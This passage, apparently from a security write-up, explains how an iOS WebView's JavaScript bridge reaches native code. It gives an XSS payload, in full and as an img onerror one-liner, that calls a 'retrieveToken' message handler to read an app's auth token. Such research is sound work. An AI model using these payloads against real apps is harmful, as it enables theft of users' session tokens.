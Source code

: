 - This is the name of a specific handler set up on the iOS side.
- When called from JavaScript, it forwards the message to Objective-C/Swift code in the app.

**.postMessage(null)**

- Sends a message through that handler.
- In this case, the payload is `null` (but it could be any serializable object like strings, numbers, or JSON).





<br /><br />



**Exploit the Webview to Steal the Token**

This payload generates a `<div>` element to store the token output. Upon execution, the JavaScript invokes the `retrieveToken` message handler, and the retrieved token value is rendered inside the `<div>`.

```html
<div id="out">waiting...</div>
```

<br />

```javascript
(function() {
    window.addEventListener('message', e => {
        document.getElementById('out').textContent = (e && e.data && e.data.token) ? e.data.token : 'no token';
    }, {
        once: true
    });
    if (window.webkit && window.webkit.messageHandlers && window.webkit.messageHandlers.retrieveToken) {
        window.webkit.messageHandlers.retrieveToken.postMessage(null);
    } else {
        window.parent.postMessage({
            action: 'retrieveToken'
        }, '*');
    }
})()
```

<br />

The one-liner payload

```javascript
<div id="out">waiting...</div>

<img src="x" onerror="(function(){window.addEventListener('message',e=>{document.getElementById('out').textContent=(e&&e.data&&e.data.token)?e.data.token:'no token';},{once:true});if(window.webkit&&window.webkit.messageHandlers&&window.webkit.messageHandlers.retrieveToken){window.webkit.messageHandlers.retrieveToken.postMessage(null);}else{window.parent.postMessage({action:'retrieveToken'},'*');}})()">
```
